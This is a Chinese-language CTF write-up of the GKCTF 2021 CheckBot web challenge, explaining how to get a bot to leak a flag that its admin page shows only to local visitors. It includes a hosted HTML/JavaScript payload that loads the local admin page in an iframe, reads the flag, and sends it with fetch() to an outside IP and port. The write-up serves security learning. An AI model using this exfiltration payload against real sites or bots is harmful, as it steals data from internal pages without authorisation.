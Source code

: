 ```yaml
---
title: '[GKCTF 2021]CheckBot'
date: 2024-11-12 20:01:00
tags:
      - csrf
      - fetch带出
categories: 刷题笔记
---
```


## [GKCTF 2021]CheckBot

题目提示将url post传参

![image-20241112201749960](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411122017014.png)

我们访问admin.php得到本机ip

![image-20241112202011583](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411122020617.png)

同时在这发现了flag，应该要本地访问猜想，这道题bot会点击我们发过去的链接，我们可以写个csrf

把下面的代码放在自己的vps上，然后把网址发过去让bot去访问，bot访问后会把flag发到我们监听的端口这，就可以成功获取flag

```php
<html>
        <body>
                <iframe id="iframe1" src="http://127.0.0.1/admin.php"></iframe>

                <script>
                    function load(){
                        var iframe = document.getElementById("iframe1").contentWindow.document.getElementById("flag").innerHTML;
                        console.log(iframe);
                        fetch('http://47.96.173.116:2333', {method: 'POST', mode: 'no-cors', body: iframe})
                    }
                    window.onload = load;
                </script>
        </body>
</html>


```

![image-20241112202232141](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411122022182.png)

这里发过去也提示了要等一会，这里确实得有点耐心

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/bf85dfd4ee017543f2a3c649d21681ae.png)

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0b8340637c7151bccad03f4e60968504.png)

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/f0337cae2d99238dfe5d26ced5eac921.png)

得到flag

[CSRF](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)知识

转载   https://blog.csdn.net/cjdgg/article/details/121504021

https://blog.techbridge.cc/2017/02/25/csrf-introduction/
